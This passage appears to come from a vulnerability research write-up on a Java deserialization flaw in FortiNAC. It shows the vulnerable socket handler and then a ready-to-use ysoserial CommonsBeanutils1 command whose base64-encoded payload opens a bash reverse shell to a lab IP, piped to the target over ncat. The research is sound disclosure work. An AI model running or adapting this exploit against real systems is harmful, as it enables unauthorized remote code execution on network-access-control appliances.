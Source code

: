 ```java
@Override
public void run() {
    try {
        final InetAddress remoteHost = this.socket.getInetAddress();
        if (Yams.this.debug || !remoteHost.getHostAddress().equals(Yams.localIP)) {
            YamsPluginBase.this.log("Client connecting from IP = " + remoteHost.getHostAddress() + " name = " + remoteHost.getHostName() + " port = " + this.socket.getPort() + "\n");
            Yams.this.connections.put(remoteHost, new Date());
        }
        this.socket.setSoTimeout(30000);
        byte[] store = X509Provider.getClientSideKeyStore();
        final ObjectOutputStream stream = new ObjectOutputStream(this.socket.getOutputStream());
        stream.writeObject(this.masterStub);
        stream.writeObject(store);
        final ObjectInputStream inStream = new ObjectInputStream(this.socket.getInputStream()); // [6]
        store = (byte[])inStream.readObject(); // [7]
        Yams.this.addKeyStore(store);
        stream.close();
        inStream.close();
    }
	...
```

This handler reads data from the socket via `java.net.Socket.getInputStream()` into a `java.io.ObjectInputStream` `[6]` and...calls `readObject()` on it at `[7]`. Sounds like "game over" and I already bet my favourite Java gadgets would have been available in the class path. The java version **1.8.0_332** also didn't give me any headaches so far. We find plenty of nice Java libraries in `/bsc/campusMgr/lib`, `commons-beanutils-1.9.2.jar` being one of them.

We don't have any more reasons to wait, so create and send the payload for a reverse shell over a `ncat` SSL connection: `java -jar ysoserial-master-SNAPSHOT.jar CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMzcuMC4xNi8xMzM3IDA+JjE=}|{base64,-d}|{bash,-i}" | ncat --ssl 10.137.0.34 1050`

![fortinacRCE1.png](/assets/images/fortinac/fortinacRCE1.png)
